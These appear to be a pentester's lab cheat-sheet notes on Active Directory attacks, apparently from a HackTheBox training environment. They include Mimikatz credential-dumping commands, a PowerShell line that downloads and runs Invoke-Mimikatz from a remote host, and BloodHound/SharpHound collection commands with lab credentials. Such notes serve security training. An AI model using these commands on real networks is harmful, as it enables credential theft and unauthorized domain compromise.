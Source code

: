 ## Mimikatz

```bash
PS C:\> ./mimikatz.exe "privilege::debug" "token::elevate" "lsadump::secrets" "exit"
PS C:\> powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```

## Bloodhound

<aside>
⚠️

Check them out 

1. **first degree object control** 
2. **Group delegated object** **control** items.
</aside>

```powershell
#Executing bloodhound On Linux
Intrusionz3r0X@htb[/htb]$ sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all
Intrusionz3r0X@htb[/htb]$ zip -r ilfreight_bh.zip *.json
Intrusionz3r0X@htb[/htb]$ sudo neo4j start
Intrusionz3r0X@htb[/htb]$ bloodhound

#Execute bloodhound against a specific domain
Intrusionz3r0X@htb[/htb]$ bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2

sudo neo4j console

#Executin bloodhound On Windows
PS C:\htb> .\SharpHound.exe -c All --zipfilename ILFREIGHT
Type bloodhound into a CMD or PowerShell console
```

**Adding INLANEFREIGHT.LOCAL Information to /etc/resolv.conf**

```powershell
Intrusionz3r0X@htb[/htb]$ cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```
